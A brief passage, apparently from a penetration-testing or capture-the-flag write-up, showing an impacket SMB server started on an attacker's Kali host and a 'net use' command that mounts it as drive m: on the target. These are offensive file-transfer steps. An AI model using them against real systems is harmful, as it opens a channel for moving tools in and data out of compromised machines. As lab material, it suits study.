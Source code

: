 ```
impacket-smbserver smbfolder $(pwd) -smb2support -user kali -password kalikali
```

![](./IMG/31.png)

> Connect to my SMB server (like mount it as drive named m:)

```
net use m: \\10.10.14.22\smbfolder /user:kali kalikali
```
